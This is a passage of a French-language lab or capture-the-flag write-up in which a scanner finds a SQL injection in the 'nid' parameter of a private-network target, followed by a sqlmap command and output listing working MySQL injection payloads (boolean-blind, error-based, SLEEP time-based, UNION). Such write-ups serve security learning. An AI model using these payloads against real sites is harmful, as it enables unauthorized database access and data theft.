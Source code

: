 Finalement le module `sql` trouve une faille SQL error based :

```
[*] Launching module sql
[+] GET http://192.168.56.139/ (0)
[+] GET http://192.168.56.139/?nid=1 (1)
[¨] GET http://192.168.56.139/?nid=1%C2%BF%27%22%28 (1)
---
SQL Injection (DBMS: MySQL) in http://192.168.56.139/ via injection in the parameter nid
Evil request:
    GET /?nid=1%C2%BF%27%22%28 HTTP/1.1
    host: 192.168.56.139
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    cookie: webform-3[1679520927]=1679520927; webform-3[1679520933]=1679520933; webform-3[1679520939]=1679520939; --- snip ---; webform-3[1679521056]=1679521056
---
```

## Leak'n'Crack

J'enchaine naturellement avec `sqlmap` :

```bash
python sqlmap.py -u "http://192.168.56.139/?nid=1"
```

Ce dernier trouve plusieurs techniques pour l'exploitation. Avec l'utilisation du mot clé `UNION` ça ira très vite.

```
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: nid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: nid=1 AND 9687=9687

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: nid=1 AND (SELECT 9545 FROM(SELECT COUNT(*),CONCAT(0x7176717071,(SELECT (ELT(9545=9545,1))),0x716b787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: nid=1 AND (SELECT 6318 FROM (SELECT(SLEEP(5)))Vvbs)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: nid=-5290 UNION ALL SELECT CONCAT(0x7176717071,0x5654526a5852726d6c696953786743676d5372714d5570524345456557586e47676c62776a74726f,0x716b787871)-- -
---
```
